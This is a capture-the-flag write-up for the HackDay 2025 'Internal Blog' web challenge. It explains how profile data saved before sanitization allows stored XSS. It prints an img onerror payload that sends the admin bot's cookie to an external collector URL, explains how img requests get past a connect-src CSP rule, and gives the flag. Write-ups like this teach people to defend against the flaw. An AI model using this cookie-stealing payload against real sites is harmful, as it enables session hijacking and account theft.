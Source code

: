 ```yaml
---
title: HackDay 2025 - Internal Blog
date: 2025-01-26
categories:
  - CTFs
  - HackDay 2025
  - Web
tags:
  - web
  - xss
description: XSS vulnerability on a blog allowed executing malicious JavaScript in the admin's account, exposing his cookie. 🍪
---
```

## Description 

* Category: Web 
* Vulnerability: XSS

> You’ve received an anonymous tip from the Airship Mail Delivery Company claiming that a seemingly legitimate website is actually a front for trading stolen submarine mechanical parts. Yeah, that’s oddly specific...The localhost port is 3000. Take a closer look and see if you can uncover anything suspicious. The flag to find is the bot's cookie.

[Link of the event](https://ctftime.org/event/2615)
## Enumeration 

![](assets/img_0127_0515_sstfy%201.png)
<em align="center">Admin visits posts and profil page</em>

We can also see an interesting piece of code that is shared with us:
![](assets/img_0127_0516_ernpg.png)
<em align="center">Code Leak</em>

```js
await newProfile.save()
const isXSSDetected = sanitizeJson(profileData, res);
```

The user is saved **before** XSS sanitization => Even if an XSS is detected by the server, the user will still be created.

## Exploitation

### Detecting the Vulnerability

We create an account to test XSS on the user's profile page:
```
<script>alert(document.cookie)</script>
```

![](assets/img_0127_0517_xluga.png)

=> We get the message "XSS Detected." But if we navigate to our profile page using the token, the profile is still created, and an alert pops up => **Vulnerable to XSS!** ✅

![](assets/img_0127_0518_priyt.png)

We can also notice that the `Name` field is the one vulnerable to XSS:

![](assets/img_0127_0519_cxscu.png)

### Exploitation

The blog page mentions that we need to publish an article for an admin to review our profile (where our XSS is injected!!!). So, we will create an account that sends the admin's cookie to our attacker server (using RequestBin).

We create a profile with the following JavaScript script in the `name` field:

```js
<img src=x onerror=this.src='https://eozgdsdwr0yqpzt.m.pipedream.net?cookie='+document.cookie>
```

Next, we publish an article so the admin visits our profile page. By checking the requests received on our attacker server, we can see the admin's cookie, which contains the flag! ✅

Flag : ``HACKDAY{0rd3R_M4tteRs_In_Ur_C0d3!!!!}``


> There was a Content Security Policy (CSP) directive in place:
> - `connect-src 'self' http://127.0.0.1;`
> 
> This blocks requests such as `fetch()` to other sites. However, this directive does not cover requests from `<img>` tags. To block requests made by `img` tags to other sites, an `img-src` directive or a `default-src` directive is required.
{: .prompt-info }
